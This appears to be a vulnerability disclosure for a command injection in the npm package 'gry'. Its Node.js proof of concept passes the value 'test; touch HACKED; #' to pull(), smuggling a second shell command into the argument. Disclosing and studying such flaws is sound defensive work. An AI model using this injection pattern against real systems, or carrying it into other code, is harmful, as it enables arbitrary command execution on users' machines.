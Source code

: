 # Overview

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

# Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js
const Repo = require("gry");
var myRepo = new Repo(".");
myRepo.pull("test; touch HACKED; #", function () {
  console.log("Finished!");
});
```

2. Check there aren't files called `HACKED`
3. Execute the following commands in another terminal:

```bash
npm i gry # Install affected module
node poc.js #  Run the PoC
```

4. Recheck the files: now `HACKED` has been created

# References:

- [GitHub Issue](https://github.com/IonicaBizau/node-gry/issues/21)
- [GitHub Permalink #1](https://github.com/IonicaBizau/node-gry/blob/master/lib/index.js#L149)
